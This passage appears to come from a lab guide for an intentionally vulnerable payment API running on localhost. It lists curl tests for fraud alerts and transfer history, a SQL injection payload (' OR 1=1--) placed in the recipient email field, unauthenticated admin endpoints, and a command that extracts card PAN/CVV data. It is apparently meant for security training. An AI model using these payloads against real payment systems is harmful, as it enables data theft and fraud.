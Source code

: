 ### Test 7: List Fraud Alerts (NO AUTH - VULNERABLE)

```bash
curl http://localhost:3000/api/v1/fraud/alerts
```

**Expected Response**: Array of all fraud alerts in the system.

### Test 8: Get Transfer History

```bash
curl http://localhost:3000/api/v1/p2p/history/1
```

**Expected Response**: Array of P2P transfers for user ID 1.

---

## Step 4: Verify Vulnerabilities (1 minute)

### SQL Injection Test

Try this SQL injection payload in the P2P recipient email:

```bash
curl -X POST http://localhost:3000/api/v1/p2p/send \
  -H "Content-Type: application/json" \
  -d '{
    "sender_user_id": 1,
    "recipient_email": "user@example.com'"'"' OR 1=1--",
    "amount": 100.00,
    "memo": "SQL Injection Test"
  }'
```

**Result**: SQL error exposed in response (proves SQL injection vulnerability).

### Missing Authentication Test

All admin endpoints work without any authentication token:

```bash
# No authentication required!
curl http://localhost:3000/api/v1/admin/users/list
curl http://localhost:3000/api/v1/admin/merchants/list
curl http://localhost:3000/api/v1/admin/dashboard/stats
```

**Result**: All endpoints return data without requiring login.

### PAN/CVV Exposure Test

```bash
curl http://localhost:3000/api/v1/admin/users/1/full-details | jq '.user.cards[0]'
```
